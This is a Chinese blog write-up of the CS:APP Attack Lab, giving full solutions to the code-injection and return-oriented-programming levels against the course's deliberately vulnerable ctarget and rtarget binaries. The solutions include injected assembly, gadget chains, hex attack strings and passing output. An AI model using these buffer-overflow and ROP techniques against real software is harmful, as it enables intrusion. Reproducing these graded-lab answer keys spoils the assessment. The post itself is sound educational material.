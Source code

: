 ```yaml
---
title: Attack-lab
date: 2021-04-04 17:25:28
tags: csapp
categories: csapp
---
```

Attack-lab是针对CSAPP中对应的第三章3.10部分的内容，在这个实验中，我们需要针对不同的目的编写攻击字符串来填充一个有漏洞的程序的栈来达到执行攻击代码的目的。实验的内容分为两部分，前面三个是代码注入，后两个是回归导向编程ROP攻击。

lab的具体内容可以在[官网](http://csapp.cs.cmu.edu/3e/labs.html)中下载，所有的lab代码在[GitHub](https://github.com/IguoChan/CSAPP-Labs)上。
<!-- more -->
## 前期准备
和Bomb-lab一样，我们反汇编两个可执行文件，得到汇编代码。
``` bash
$ objdump -d ctarget > ctarget.asm
$ objdump -d rtarget > rtarget.asm
```
## PART I: Code Injection Attacks
### level 1
这一level和书上3.10.3的例子是一样的，由于没有进行目标缓冲区的大小界定，可能会冲击掉栈的值，而这题的目标就是让我们在getbuf返回的时候调用的是touch1函数。

几个主要的函数如下：
``` c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

根据反汇编，getbuf函数如下，其申请了0x28大小的栈。
``` x86asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
而Gets函数基本上是从标准输入读入字符串到指定的地址，具体的代码就不粘贴了，大家可以参考反汇编的代码，和书本上的gets函数基本差不多（就多了一个存储读入的字符的功能，save_char和save_term）。

可以发现，要想冲击掉getbuf函数的返回地址，首先我们需要填满0x28的缓冲区，然后将touch1的地址填入到返回地址中，而touch1的地址是4017c0，根据小端法，在之后填充`c0 17 40`，我们填入以下数据即可，将以下数据写入answer文件夹下level1文件中：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```
然后我们试一试（-q是取消向cmu的服务器发送成绩，我们是自学，自然访问不了其服务器）：
``` bash
$ ./hex2raw -i answer/level1 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```
用图表示level1如下所示：
<div align=center><img src="/img/attack-lab-ph1-level1.jpg" width = 70% height = 70% /></div>

### level 2
这个阶段的解题思路和上面是类似的，我们还是需要拦截程序流，跳转到touch2函数，但是还需要满足touch2的输入val=cookie（0x59b997fa），如下：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
  	   printf("Touch2!: You called touch2(0x%.8x)\n", val);
  	   validate(2);
    } else {
  	   printf("Misfire: You called touch2(0x%.8x)\n", val);
  	   fail(2);
    }
    exit(0);
}
```
思路如下：
* 将正常的返回地址设置为注入代码的地址，本次直接从栈顶注入，所以将返回地址设置为`%rsp`的值；
* 将cookie值移入到`%rdi`；
* 想要调用touch2，又不能直接使用call、jmp指令，只能使用ret改变当前指令寄存器的只想地址，在此之前将touch2的地址压栈即可。

注入代码为：
``` x86asm
/* level2-inject.s */
movq $0x59b997fa, %rdi  # set input val cookie
pushq $0x4017ec         # touch2 address
ret
```
执行以下操作
``` x86asm
$ gcc -c level2-inject.s
$ objdump -d level2-inject.o

level2-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq    
```
接下来，利用gdb，找到调用getbuf时`%rsp`的地址。
``` bash
$ gdb ctarget
(gdb) b getbuf
Breakpoint 1 at 0x4017a8
(gdb) r -q
Starting program: /home/topeet/smb_share/workspace/CSAPP/CSAPP-Labs/labs/attack-lab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017a8 in getbuf ()
(gdb) stepi 2
0x00000000004017af in getbuf ()
(gdb) i registers rsp
rsp            0x5561dc78	0x5561dc78
(gdb) 
```
所以我们填充注入代码如下，将以下数据写入answer文件夹下level2文件中：
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```
然后执行：
``` bash
$ hex2raw -i answer/level2 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 
```
用图表示level2如下所示，我们应该庆幸作者预留了40个byte大小的位置，因为当开始执行从栈顶注入的代码时，栈指针为`0x5561dca0`，此时执行`pushq $0x4017ec`时，栈指针会变为`0x5561dc98`，如果预留了小于24个字节大小时，执行`pushq $0x4017ec`时会冲掉`0x5561dc80`，就无法到`retq`语句了。
<div align=center><img src="/img/attack-lab-ph1-level2.jpg" width = 70% height = 70% /></div>

### level 3
这个level考察的依然是代码注入，其函数如下：
``` c
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
还是需要调用touch3，但是这次传入的参数是一个字符串，同时函数内部用了另外一个函数进行比较，这次要比较的是`"59b997fa"`这个字符串。

但是我们不能将字符串放在getbuf的栈帧，因为hexmatch函数会开辟110个字节的栈帧大小，肯定会冲掉原栈帧，所以我们需要将字符串放在安全的地址，也就是test的栈帧。我们知道，test函数的返回地址是`0x5561dca0`，那么其运行时栈顶地址就是`0x5561dca8`。我们要做的就是把字符串存在这个地址，并将这个地址送到%rdi中，然后将touch3的首地址压栈，虽然返回，所以我们注入的汇编代码就是：
``` x86asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```
执行以下操作
``` bash
$ gcc -c level3-inject.s 
$ objdump -d level3-inject.o 

level3-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
   7: 68 fa 18 40 00        pushq  $0x4018fa
   c: c3                    retq   
```
之后我们可以将字符串`"59b997fa"`转换为ascii的十六进制表示`35 39 62 39 39 37 66 61 00`，千万不能忘了最后`'\0'`表示字符串结尾。

所以我们填充注入代码如下，将以下数据写入answer文件夹下level3文件中：
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
结果如下所示：
``` bash
$ ./hex2raw < answer/level3 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
用图表示如下所示：
<div align=center><img src="/img/attack-lab-ph1-level3.jpg" width = 70% height = 70% /></div>

## PART II: Return-Oriented Programming
代码注入在这个部分可能就不好使了，因为现代编译器和操作系统实现了许多机制，以避免遭受缓冲区溢出的攻击，如writeup所说，其采取了以下方式去阻挠代码注入攻击：
1. 栈随机化：栈的位置在每次运行时都有变化，使得无法确定注入的代码将位于何处；
2. 限制可执行代码区域：会将保存在栈的内存部分标记为不可执行，因此将程序注入到栈内，也将会爆出segmentation fault。

然而，我们可以通过执行现有代码而不是注入新代码来在程序中完成有用的事情，这种方式成为ROP(Return-Oriented Programming)。其策略是在现有程序中标识由一个或多个指令以及指令ret组成的字节序列，这种段称为*gadget*，如下图所示：
<div align=center><img src="/img/gadget.JPG" width = 50% height = 50% /></div>

后续writeup还举了一个例子，感兴趣的同学可以去看看，我们直接跳到level2。

### level 2
这题和第一部分的level2要求是一样的，就是执行touch2，并且根据writeup上的提示：
1. 所需的*gadgets*在start_farm到mid_farm之间；
2. 只需要两个*gadget*；
3. popq指令可以将数值从栈中弹出数据，所以攻击字符串应该是地址和数据的组合。

思路和之前还是一样：
1. 将cookie放到%rdi，这需要mov命令；
2. 但是所给的mov指令只有从一个寄存器到另一个寄存器的，没有直接mov内存（栈）到寄存器的；
3. 所以需要pop指令将栈中cookie弹出到一个寄存器，然后再用mov指令移动到%rdi中；
4. 或者说，我们能直接pop将cookie弹出到%rdi也行；

首先观察下表，因为在start_farm到end_farm之间没有找到`5f`这条指令，所以排除上述第4条可能性。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表A</div>
  <br>
  <img src="/img/popq-gadgets.JPG" width = 70% height = 70% />  
</div>

观察下表，能mov到%rdi的指令是最后一列：
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表B</div>
  <br>
  <img src="/img/movq-gadgets.JPG" width = 100% height = 100% />
</div>

经过排查，只有满足以下指令的`48 89 c7`和`58`字段被找到：
``` x86asm
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```
其中让人满意的分别是，因为`90`指令是`nop`，没有操作。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3                    retq

00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

我们给出四种答案的填充，分别验证如下：
1. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-1 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

2. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-2 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
3.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
4.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-4 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

其实就是排列组合两行地址，图我们就不画那么多了，针对最后一种情况画个图，如下所示：
<div align=center><img src="/img/attack-lab-ph2-level2.jpg" width = 70% height = 70% /></div>

### level 3
在这一阶段中，我们需要做的就是把字符串的起始地址传送到%rdi，然后调用touch3函数。
因为每次栈都是随机的，所以无法直接用地址来索引字符串的位置，只能用栈顶地址+偏移量来索引字符串的起始地址。而从farm中我们可以找到一个*gadget*来实现两个寄存器值的相加`lea (%rdi,%rsi,1),%rax`。

解题思路：
1. 首先获取%rsp的值，传送到%rdi；
2. 其次获取字符串的偏移量，传送到%rsi；
3. 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax；
4. 利用mov指令将%rax传送到%rdi；
5. 调用touch3函数。

步骤如下：

1 获取%rsp的值：
参考表B，在farm中寻找到的符合源操作寄存器为%rsp的只有指令`movq %rsp, %rax`的指令字节`40 89 e0`，符合的有下图所示的两种，所以第一步的gadget地址为：0x401a06或者0x401aad。
``` x86asm
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3                    retq

0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90     movl   $0x90e08948,(%rdi)
  401ab1: c3                    retq
```

2 将%rax的内容传送到%rdi：
`movq %rax, %rdi`的指令字节`40 89 c7`，符合的有两个，所以第二步的地址为：0x4019a2或者0x4019c5。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3 
```

3 利用pop指令弹出偏移量：
查询表B，只有`popq %rax`的指令`58`符合要求，符合的有以下两个，所以第三步的地址为：0x4019ab或者0x4019cc。
``` x86asm
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

4 将%rax内容传送到%rsi：
查询表B，`mov %rax, %rsi`指令为`48 89 c6`，这个在farm中不存在，可以发现，以%rax为源寄存器的movq指令，只有`mov %rax, %rdi`，但是此时rdi的值已经是栈地址了，所以不能动，那只能打movl的主意了。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表C</div>
  <br>
  <img src="/img/movl-gadgets.JPG" width = 100% height = 100% />
</div>

  1) 如上表所示，在farm中，以%eax为源寄存器的操作码，且不冲击%edi的只有`movl %eax, %edx`的操作码`89 c2`了，所以满足这一小步的地址：0x4019dd。
``` x86asm
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3
```
  2) 不能忘记我们的目标是%rsi/%esi，再查表B和C，以%rdx/%edx为源的操作码只有`movl %edx, %ecx`的操作码`89 d1`，符合的地址：0x401a70（这里后面跟着字节91，想必也是无用的字节？）。
``` x86asm
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3
```
  3) 再查表B和C，以%rcx/%ecx为源的操作码只有`movl %ecx, %esi`的操作码`89 ce`，且目标正是%esi，符合的地址：0x401a13。
``` x86asm
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3
```

5 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax
这一步即直接使用以下地址即可：0x4019d6。
``` x86asm
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq   
```

6 利用mov指令将%rax传送到%rdi（同步骤2）

7 计算偏移量
执行步骤1时，%rsp所指位置已经指向了步骤2的位置，根据以上分析，从步骤三开始需要指令地址占据栈区的有6个，偏移量占据一行，touch3占据一行，所以中间至少需要隔绝8行（一行64位），然后将字符串首地址放在之上，即偏移量为`9 * 8 = 72`，所以填写十六进制0x48。

根据以上分析，我们可以画出一种解法的图如下所示：
<div align=center><img src="/img/attack-lab-ph2-level3.jpg" width = 70% height = 70% /></div>

所以我们填充的数字如下所示：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
测试结果如下：
``` bash
$ ./hex2raw -i answer/part2-level3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
当然也有其他的一些正确结果，根据以上步骤里的随机组合就好了，这里就不验证了。

## 总结
真个lab做下来，受益良多，对于栈有了更深的理解，认识到了缓冲区溢出可以造成的严重后果，写出更安全的代码需要注意的点。